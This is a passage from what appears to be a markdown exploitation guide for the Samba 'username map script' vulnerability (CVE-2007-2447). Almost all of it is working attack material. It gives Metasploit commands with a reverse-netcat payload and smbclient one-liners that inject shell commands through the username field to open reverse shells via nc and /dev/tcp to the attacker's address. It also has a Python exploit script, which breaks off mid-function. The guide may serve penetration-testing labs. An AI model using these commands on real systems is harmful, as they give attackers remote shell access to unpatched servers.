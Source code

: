 ## 💥 Exploitation Workflow

### Method 1: Username Map Script Exploitation (CVE-2007-2447)

#### Metasploit Exploitation
```bash
# Start Metasploit
msfconsole

# Use the Samba usermap_script exploit
use exploit/multi/samba/usermap_script

# Show exploit options
show options

# Set target
set RHOSTS <target-ip>
set LHOST <your-ip>

# Optional: Set specific payload
set PAYLOAD cmd/unix/reverse_netcat
set LPORT 4444

# Check if target is vulnerable
check

# Execute exploit
exploit
```

#### Manual Exploitation via smbclient
```bash
# Connect with malicious username containing command injection
smbclient //<target-ip>/tmp -U './=`nohup nc -e /bin/sh <your-ip> 4444`'

# Alternative payloads
smbclient //<target-ip>/tmp -U '`id > /tmp/pwned.txt`'
smbclient //<target-ip>/tmp -U './=`/bin/bash -i >& /dev/tcp/<your-ip>/4444 0>&1`'

# Set up listener first
nc -lvnp 4444
```

#### Python Exploitation Script
```python
#!/usr/bin/env python3
import socket
import sys
from smb.SMBConnection import SMBConnection

def exploit_samba_usermap(target_ip, command):
    try:
        # Create SMB connection with malicious username
        malicious_username = f'./=`{command}`'
        
        # Connect to SMB
        conn = SMBConnection(malicious_username, '', '', '', use_ntlm_v2=False)
        
        # This will trigger the vulnerability
        conn.connect(target_ip, 139)
        
        print(f"Exploit sent to {target_ip}")
```